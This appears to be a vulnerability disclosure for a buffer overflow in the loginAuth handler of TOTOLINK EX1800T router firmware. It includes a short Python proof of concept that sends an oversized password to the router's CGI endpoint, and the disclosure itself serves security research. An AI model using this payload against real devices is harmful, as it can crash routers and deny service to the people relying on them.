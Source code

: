 ## TOTOLINK EX1800T have buffer overflow vulnerability in loginAuth.

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/223/ids/36.html

## Affected version

 TOTOLINK EX1800T  V9.1.0cu.2112_B20220316

## Vulnerability details

In the TOTOLINK EX1800T   V9.1.0cu.2112_B20220316 firmware has a buffer overflow vulnerability In `loginAuth` function.  `v7` receives the password parameter,and passes it to the `urldecode` function for processing. However, since the user can control the input of `password`,The `urldecode` can cause a buffer overflow vulnerability.

![Image](https://github.com/user-attachments/assets/24b75beb-0495-431a-86f5-8dc03b0d75b5)

The `urldecode` function does not limit the length of the string, so a malicious attacker can construct the data to be interpreted as DDOS.

![Image](https://github.com/user-attachments/assets/01cf005a-dd84-4540-a939-1cfb11baee58)

## POC

```
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
data = {
"token": ""
"topicurl":"loginAuth",
"password":"b"*0x2000,
}
response = requests.post(url, json=data)
print(response.text)
```

![Image](https://github.com/user-attachments/assets/875ed8ac-721d-4a68-948c-b01dfad4e473)

![Image](https://github.com/user-attachments/assets/60cde689-5e38-4b89-8a05-38750e91118f)